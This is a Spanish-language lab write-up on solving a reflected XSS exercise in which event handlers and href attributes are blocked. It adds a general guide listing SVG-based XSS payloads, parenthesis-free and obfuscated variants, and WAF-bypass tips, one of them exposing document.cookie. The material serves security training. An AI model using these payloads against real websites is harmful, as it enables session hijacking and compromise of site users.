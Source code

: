 Lab: Reflected XSS with event handlers and href attributes blocked


This lab contains a reflected XSS vulnerability with some whitelisted tags, but all events and anchor `href` attributes are blocked.

To solve the lab, perform a cross-site scripting attack that injects a vector that, when clicked, calls the `alert` function.

Note that you need to label your vector with the word "Click" in order to induce the simulated lab user to click your vector. For example:

```html
<a href="">Click me</a>
```
---


Como se trata de un contexto HTML entre etiquetas, sabemos que el parámetro de búsqueda refleja el payload que se le inyecte:
![image](https://github.com/user-attachments/assets/6d1bb63e-6238-4146-b8b0-6707ef8d6611)

Tembién sabemos que tenemos un waf que bloquea la mayoría de las etiquetas:
![image](https://github.com/user-attachments/assets/d34ec8c0-b27e-4ab5-8fb0-203c84c0e680)

Por lo que dice el ejercicio, el waf tiene una lista blanca de etiquetas, entre las cuales, está permitida al etiqueta `<a>`:
![image](https://github.com/user-attachments/assets/f274c733-f853-4e80-b3f3-0bb47a9f0cec)

Sin embargo si queremos inyectar la siguiente etiqueta:
```html
<a href="javascript:alert(1)">Click me</a>
```
Vemos que el atributo `href` está bloqueado:
![image](https://github.com/user-attachments/assets/9887dbca-5f68-4839-9f95-cfb9a2fc68f9)

Procedemos a realizar un Sniper Attack con Burpsuite Intruder para averiguar las tags permitidas:
![image](https://github.com/user-attachments/assets/851d9069-0f80-4489-8130-653c29d5a86a)

Hay que tener especial atención al `<svg>`, ya que:

- Es comúnmente usado en ataques XSS modernos.

- Se puede usar junto con eventos como `onload`, por ejemplo:
  ```html
  <svg onload="alert(1)">
  ```
Probamos el payload pero vemos que el atributo onload es bloqueado:
![image](https://github.com/user-attachments/assets/776bb23a-6f73-4202-9568-c9593f3dd206)


---

# 🧠 Guía Completa de XSS usando `<svg>`

## 🧩 ¿Por qué `<svg>` es útil para XSS?

`<svg>` es una etiqueta válida de HTML5 usada para gráficos vectoriales.  
Lo interesante es que el navegador la permite aunque el WAF (Firewall) bloquee etiquetas clásicas como `<script>`, `<img>`, etc.

Además, **dentro de un `<svg>` podés insertar eventos de JavaScript**, como `onload`, `onmouseover`, etc., lo que la hace una excelente herramienta para bypass.

---

## 🧪 Casos básicos de XSS con `<svg>`

### 1. 🧨 Payload mínimo funcional:

```html
<svg onload=alert(1)>
```

- `onload`: se ejecuta apenas el navegador carga el SVG.

---

### 2. 🔥 Payload dentro de una URL (reflected XSS):

```url
?search=<svg%20onload=alert(1)>
```

- `%20` es espacio, el navegador lo decodifica al mostrarlo.

---

### 3. 🛠️ Payload más elaborado con atributos adicionales:

```html
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)">
```

- `xmlns`: hace que el SVG sea completamente válido.
- `document.domain`: otra forma de probar que se ejecuta JS.

---

## 💡 ¿Qué eventos podés usar?

- `onload` ✅ → apenas se carga.
- `onmouseover` ✅ → cuando pasás el mouse.
- `onfocus` ✅ → cuando hacés foco (útil con `tabindex`).
- `onclick` ✅ → cuando hacés click.

```html
<svg onclick=alert(1)>Click me</svg>
```

---

## 🎯 Casos reales de bypass con `<svg>`

### ✅ Bypass cuando `<script>` está bloqueado:

```html
<svg/onload=alert(1)>
```

### ✅ Payload sin paréntesis:

```html
<svg onload=confirm`${document.cookie}`>
```

### ✅ Payload ofuscado:

```html
<svg %0Aonload=alert(1)>
```

---

## 💡 Pro Tips

| Caso | Técnica |
|------|---------|
| WAF bloquea `<script>` | Usá `<svg onload=...>` |
| WAF bloquea paréntesis | Usá template strings: \`${...}\` |
| WAF bloquea `"`, `'` | Usá backticks o sin comillas |
| Quieren que se dispare solo | `onload` o `autofocus + #hash` |

---

## 🧪 Práctica rápida

```url
?search=<svg%20onload=alert(document.domain)>
```

```url
?search=<svg%20id=x%20onfocus=alert(1)%20tabindex=1>#x
```

---

## 🧱 Si tenés un WAF muy fuerte...

```html
<svg><script>alert(1)</script></svg>
```

```html
<svg><a xlink:href="javascript:alert(1)">CLICK</a></svg>
```

> Ojo: no todos los navegadores modernos permiten `javascript:` dentro de SVGs hoy.

---



